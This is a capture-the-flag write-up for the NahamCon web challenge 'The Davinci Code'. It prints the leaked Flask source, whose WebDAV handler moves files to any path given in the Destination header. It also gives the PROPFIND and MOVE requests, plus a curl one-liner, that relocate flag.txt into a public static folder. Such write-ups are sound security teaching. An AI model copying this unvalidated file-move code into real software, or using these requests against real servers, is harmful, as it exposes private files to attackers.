

## Title

The Davinci Code

## Description

Author: @JohnHammond#6971

Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...


## Solution

Once we browse to the code endpoint we get an error from the debugger originated from jinja, telling that code.html does not exist.


Here we can see that the main endpoint has a method called PROFIND:



Additionally we have the following methods allowed:


Running the following request we get a strange endpoint:

```
PROPFIND / HTTP/1.1
Host: challenge.nahamcon.com:32251
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=eyJuYW1lIjoiZ3Vlc3QifQ.ZlCdVQ.Nrxw2FDNVJMN8ofjs1QkCIjF63k
Upgrade-Insecure-Requests: 1
```


In it, we have the flag.txt:


However using PROPFIND we can't read the contents of the flag.txt. Looking around we found a backup of the app.py:


Code:

```py
from flask import Flask, request, Response, render_template, abort, send_from_directory
import xml.etree.ElementTree as ET
import os
import shutil

app = Flask(__name__)
os.makedirs('static', exist_ok=True)

@app.route('/static/<path:filename>')
def static_files(filename):
    return send_from_directory('static', filename)

def create_webdav_response(endpoint, properties, children=None):
    root = ET.Element('D:multistatus', {'xmlns:D': 'DAV:'})
    response = ET.SubElement(root, 'D:response')
    href = ET.SubElement(response, 'D:href')
    href.text = endpoint
    propstat = ET.SubElement(response, 'D:propstat')
    prop = ET.SubElement(propstat, 'D:prop')
    for key, value in properties.items():
        element = ET.SubElement(prop, f'D:{key}')
        element.text = value
    status = ET.SubElement(propstat, 'D:status')
    status.text = 'HTTP/1.1 200 OK'

    if children:
        for child in children:
            child_response = ET.SubElement(root, 'D:response')
            child_href = ET.SubElement(child_response, 'D:href')
            child_href.text = os.path.join(endpoint, child)
            child_propstat = ET.SubElement(child_response, 'D:propstat')
            child_prop = ET.SubElement(child_propstat, 'D:prop')
            child_name = ET.SubElement(child_prop, 'D:displayname')
            child_name.text = child
            child_status = ET.SubElement(child_propstat, 'D:status')
            child_status.text = 'HTTP/1.1 200 OK'

    return ET.tostring(root, encoding='utf-8', method='xml')

@app.route('/<path:path>', methods=['GET', 'PROPFIND', 'MOVE'])
def handle_webdav(path):
    full_path = os.path.join(os.getcwd(), path)
    if request.method == 'PROPFIND':
        if os.path.exists(full_path):
            properties = {'message': 'WebDAVinci Code'}
            children = None
            if os.path.isdir(full_path):
                properties['directory'] = 'True'
                children = os.listdir(full_path)
            else:
                properties['file'] = 'True'
            xml_response = create_webdav_response('/' + path, properties, children)
            return Response(xml_response, mimetype='application/xml')
        abort(404)
    elif request.method == 'MOVE':
        destination = request.headers.get('Destination')
        if destination:
            destination_path = os.path.join(os.getcwd(), destination.strip('/'))
            os.makedirs(os.path.dirname(destination_path), exist_ok=True)
            shutil.move(full_path, destination_path)
            return Response(status=204)
        abort(405)
    abort(404)

@app.route('/code')
def code():
    return render_template("code.html")

@app.route('/', methods=['GET', 'PROPFIND'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
        
    elif request.method == 'PROPFIND':
        properties = {'message': 'WebDAVinci Code'}
        children = None
        properties['directory'] = 'True'
        children = os.listdir(os.getcwd())
        xml_response = create_webdav_response('/', properties, children)
        return Response(xml_response, mimetype='application/xml')
    else:
        abort(405)


if __name__ == '__main__':
    app.run(debug=True, port=5000)

```

We have a method called MOVE that when used it looks for a header called *Destination* and move the path to a destination.
Lets move the flag: /the_secret_dav_inci_code/flag.txt
Execute the following request:
```http
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Host: challenge.nahamcon.com:32251
Destination: static
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=eyJuYW1lIjoiZ3Vlc3QifQ.ZlCdVQ.Nrxw2FDNVJMN8ofjs1QkCIjF63k
Upgrade-Insecure-Requests: 1

```

We get the flag in: `http://challenge.nahamcon.com:32251/static/flag.txt`

Curl Version: `curl -X MOVE -H 'Destination: static/flag.txt' 'http://challenge.nahamcon.com:32400/the_secret_dav_inci_code/flag.txt'`